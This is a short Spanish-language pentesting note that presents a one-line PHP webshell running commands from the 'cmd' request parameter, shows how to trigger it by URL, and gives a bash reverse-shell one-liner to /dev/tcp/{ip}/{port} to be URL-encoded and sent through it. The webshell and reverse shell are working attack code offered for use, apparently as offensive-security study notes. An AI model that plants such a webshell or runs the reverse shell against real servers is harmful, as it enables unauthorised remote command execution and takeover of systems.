 Archivo que se puede subir al servidor para ejecutar comandos de forma remota
>Basicamente es una alternativa al  fichero que puedas crear con msfvenom
>

```sh fold:"Webshell en php"
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```


## Forma de ejecucion
```sh fold:"Ejecutar Webshell en php"
Buscamos la ruta del fichero .php
y le agregamos
{ip}/ruta al fichero.php?cmd={comando}
# donde el comando es el comando que queramos ejecutar

{ip}/ruta al fichero.php?cmd={comando}
```

## para pasarnos una reversshell debe estar url encodeado

```sh fold:"Envio de bash"
bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"

# tenemos que URL encodear esto
```

# Herramientas URL encoder:
- [URL Encode and Decode - Online Tool (urlencoder.net)](https://www.urlencoder.net/)
- Burpsuite
- 